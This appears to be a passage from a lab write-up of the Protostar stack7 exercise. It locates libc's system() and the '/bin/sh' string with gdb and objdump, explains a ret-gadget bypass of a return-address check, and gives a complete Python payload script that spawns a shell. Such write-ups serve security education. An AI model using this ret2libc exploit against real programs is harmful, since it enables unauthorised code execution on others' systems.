 ```
(gdb) print system
$1 = {<text variable, no debug info>} 0xb7ecffb0 <__libc_system >
```

Therefore, it is not possible to jump directly to libC, due to the check of the return pointer. As mentioned above, a return to .text is needed in order to bypass the address check and then jump to libC.

By looking at the process memory mapping of the target program, it is possible to determine the libC version and location that the target program is using; i.e, /lib/libc-2.11.2.so:

```
(gdb) info proc mapping
process 1856
cmdline = '/opt/protostar/bin/stack7'
cwd = '/opt/protostar/bin'
exe = '/opt/protostar/bin/stack7'
Mapped address spaces:

	Start Addr   End Addr       Size     Offset objfile
	 0x8048000  0x8049000     0x1000          0        /opt/protostar/bin/stack7
	 0x8049000  0x804a000     0x1000          0        /opt/protostar/bin/stack7
	0xb7e96000 0xb7e97000     0x1000          0
	0xb7e97000 0xb7fd5000   0x13e000          0         /lib/libc-2.11.2.so ; LibC
...
```
As part of this exploit, it is intended to pass `/bin/sh` to `system` to get a shell. In order to determine the location of /bin/sh in `libc-2.11.2.so`, objdump was used to calculate the offset of `/bin/sh`. 
```
$ objdump -sj .rodata /lib/libc-2.11.2.so | grep "bin"
 11f3c0 62696e2f 73680065 78697420 30006361  bin/sh.exit 0.ca
```
As seen above, the offset of `/bin/sh` is  `0x11f3bf` (`0x11f3c0 - 0x1`, which is the "/" at the beginning of the string that was omitted in the objdump search output). This is the argument that we want to pass to the `system` call so we can pop a shell. 

Now, the information needed to perform a Ret2LibC attack is known. However, the address check bypass is still missing. To bypass the check, a mini-ROP is needed so it's time to search for a `ret` instruction that could be abused for those purposes. A `ret` instruction moves the address at the top of the stack into EIP and decrement the stack by a `WORD` (`ESP + 0x4`). The goal is to prepare the stack to contain the address of `ret` instruction in `getpath` function; the address of `system`; 4 bytes of padding that are needed since we are jumping to `system` directly without the use of a `call` instruction (`call` instruction pushes the EIP to the stack so we need to add a padding of 4 bytes to compensate the missing 4 bytes of the EIP which is going to work as a fake return address); and the command that is going to be passed to `system` in this case `/bin/sh`.

Thus, the exploit to bypass the address check is the next one:
```python
import struct

padding = "\xAA" * 80
paddingROP = "\xBB" * 4                        # 1 WORD of padding as the fake return address
retAddress = struct.pack("I", 0x8048544)       # Address of ret instruction in getpath
systemAddress = struct.pack("I", 0xb7ecffb0)   # Address of system
shellAddress = struct.pack("I", 0xb7fb63bf)    # Address that points to /bin/shell

print(padding + retAddress + systemAddress + paddingROP + shellAddress)
```
